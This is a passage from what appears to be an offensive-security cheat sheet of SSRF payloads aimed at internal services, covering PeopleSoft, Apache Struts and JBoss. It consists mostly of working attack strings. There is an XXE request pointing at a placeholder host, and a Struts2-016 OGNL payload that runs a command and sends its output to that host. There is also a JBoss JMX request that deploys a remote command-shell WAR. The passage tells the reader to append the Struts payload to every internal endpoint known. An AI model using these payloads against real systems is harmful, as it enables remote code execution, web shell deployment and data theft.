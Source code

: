 ```http
         <NonRepudiation/>
         <MessageVersion/>
         <Data><![CDATA[<?xml version="1.0"?>your_message_content]]>
         </Data>
      </ContentSection>
   </ContentSections>
</IBRequest>
```

**SSRF Canary: XXE #2**

```http
POST /PSIGW/PeopleSoftServiceListeningConnector HTTP/1.1
Host: website.com
Content-Type: application/xml
...

<!DOCTYPE a PUBLIC "-//B/A/EN" "http://SSRF_CANARY">
```

<div id="struts"></div>

## Apache Struts

**Commonly bound ports: 80,443 (SSL),8080,8443 (SSL)**

Taken from [here](https://blog.safebuff.com/2016/07/03/SSRF-Tips/).

**SSRF Canary: Struts2-016**:

Append this to the end of every internal endpoint/URL you know of:

```http
?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://SSRF_CANARY/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}
```

<div id="jboss"></div>

## JBoss

**Commonly bound ports: 80,443 (SSL),8080,8443 (SSL)**

Taken from [here](https://blog.safebuff.com/2016/07/03/SSRF-Tips/).

**SSRF Canary: Deploy WAR from URL**

```bash
/jmx-console/HtmlAdaptor?action=invokeOp&name=jboss.system:service=MainDeployer&methodIndex=17&arg0=http://SSRF_CANARY/utils/cmd.war
```

<div id="confluence"></div>
